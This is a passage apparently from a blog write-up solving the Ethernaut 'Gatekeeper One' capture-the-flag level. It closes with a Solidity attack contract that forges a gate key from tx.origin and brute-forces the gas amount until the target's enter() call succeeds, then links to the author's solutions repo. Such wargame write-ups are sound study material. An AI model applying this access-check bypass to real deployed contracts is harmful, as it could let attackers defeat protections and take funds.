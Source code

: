 ```solidity
contract GatePassOne {
    event Entered(bool success);

    function enterGate(address _gateAddr, uint256 _gas) public returns (bool) {
        bytes8 key = bytes8(uint64(tx.origin)) & 0xffffffff0000ffff;
        
        bool succeeded = false;

        for (uint i = _gas - 64; i < _gas + 64; i++) {
          (bool success, ) = address(_gateAddr).call.gas(i)(abi.encodeWithSignature("enter(bytes8)", key));
          if (success) {
            succeeded = success;
            break;
          }
        }

        emit Entered(succeeded);

        return succeeded;
    }
}
```

That was quite a level. But victory!

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
